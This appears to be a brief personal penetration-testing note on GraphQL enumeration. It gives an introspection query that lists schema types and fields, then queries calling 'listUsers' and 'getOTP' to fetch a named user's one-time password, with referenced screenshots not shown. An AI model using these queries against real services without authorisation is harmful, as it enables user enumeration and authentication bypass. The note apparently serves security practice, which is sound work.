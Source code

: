 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

![[Pasted image 20221108114319.png]]

With this query you will find the name of all the types being used:

```sql
{__schema{types{name,fields{name}}}}
```

![[Pasted image 20221108114352.png]]

We are interested in "listusers" and "getOTP".

```sql
listUsers
```

![[Pasted image 20221108114422.png]]

```sql
getOTP(username:"peter")
```

![[Pasted image 20221108114441.png]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
